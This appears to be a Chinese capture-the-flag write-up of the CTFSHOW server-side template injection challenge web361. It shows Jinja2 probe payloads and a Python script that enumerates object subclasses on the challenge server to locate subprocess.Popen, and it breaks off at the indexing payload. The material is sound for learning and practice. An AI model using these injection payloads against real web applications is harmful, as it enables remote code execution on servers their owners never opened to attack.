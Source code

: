# CTFSHOW SSTI

<img src="https://i-blog.csdnimg.cn/blog_migrate/23cb0c3e1f33aa120a95d0967c6bcd60.png" alt="" style="max-height:79px; box-sizing:content-box;" />


**目录**

[TOC]



最近搞了几题SSTI 有点意思

做一下CTFSHOW的吧

## web361   【无过滤】

```undefined
名字就是考点
```

这题简单直接payload和过程了

```handlebars
?name={{7*7}} 
 
?name={{"".__class__.__base__.__subclasses__()}}
 

```

这里贴上一下脚本 用来查找位数

```cobol
import time
 
import  requests
 
 
 
base_url="http://d30af560-b595-44ce-b476-e5681156b059.challenge.ctf.show/?name="
for i in range(200):
    payload="{{\"\".__class__.__base__.__subclasses__()[%s]}}"%i
    r= requests.get(url=base_url+payload)
    if "subprocess.Popen" in r.text:
        print(i)
    if r.status_code == 429:
        time.sleep(0.5)
```

简单的我就使用多点方法

### subprocess.Popen

```handlebars
/?name={{"".__class__.__base__.__subclasses__()[407]}}
```
